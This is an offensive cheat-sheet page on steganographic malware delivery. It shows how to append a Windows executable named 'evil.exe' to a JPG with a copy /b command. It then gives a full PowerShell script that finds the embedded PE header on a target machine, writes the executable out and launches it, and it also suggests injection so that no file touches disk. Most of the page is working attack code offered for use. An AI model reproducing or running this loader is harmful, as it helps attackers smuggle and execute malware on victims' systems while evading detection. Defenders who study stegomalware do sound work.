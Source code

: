 # Steganography: JPG/PNG + PE

In this technique, we embed our PE file into an arbitrary image file and transfer it to a target Windows system.  
Then extract the PE file from the image, and execute it.  

## 1. Embed Executable in Image File

At first, we embed our PE file into an image file. We can use the Command Prompt `copy` command because it is much easier.

```powershell
# (option 1) In Command Prompt
copy /b cat.jpg + evil.exe evil.jpg

# (option 2) In PowerShell, we cannot use the `copy` command directly
# because the PowerShell `copy` command is an aliase for the `Copy-Item` cmdlet. So use `cmd /c copy`.
cmd /c copy /b cat.jpg + evil.exe evil.jpg
```

After executing the command above, the `evil.jpg` file is generated. Transfer this file to a target Windows machine.

## 2. Extract the Executable and Execute It

In a target Windows machine, we extract our PE from the `evil.jpg`, then execute it.  
To do that, we find the beginning position of PE data from the image file, and extract it from that position.  Then write the bytes to a file as EXE.  
The PowerShell commands are below:

```powershell
# Replace the values with your own paths.
$imagePath = "C:\Path\To\evil.jpg" # the image file path embedded our executable
$outputPath = "C:\Path\To\evil.exe" # the output path of the executable which will be extracted and execute.

# Read an image file as bytes
$bytes = [System.IO.File]::ReadAllBytes($imagePath)

# Bytes pattern to find the begging position of PE.
$pattern = @(
    # MZ (0x4D5A) + subsequent bytes (0x90~)
    0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0x00, 0x00
)

# Find the begging position of PE
$patternFound = $null
for ($i = 0; $i -le $bytes.Length - $pattern.Length; $i++) {
    $match = $true
    for ($j = 0; $j -lt $pattern.Length; $j++) {
        if ($bytes[$i + $j] -ne $pattern[$j]) {
            $match = $false
            break
        }
    }
    if ($match) {
        $patternFound = $i
        break
    }
}

# If the position found, extract it and execute.
if ($patternFound -ne $null) {
    $exeBytes = $bytes[$patternFound..($bytes.Length - 1)]
    # Save as a PE file however it would be better to use injection techniques or something else instead of outputting a file.
    [System.IO.File]::WriteAllBytes($outputPath, $exeBytes)
    Start-Process $outputPath
}
```

## Resources

- [Stegomalware Identifying Possible Attack Vectors](https://cyble.com/blog/stegomalware-identifying-possible-attack-vectors/)
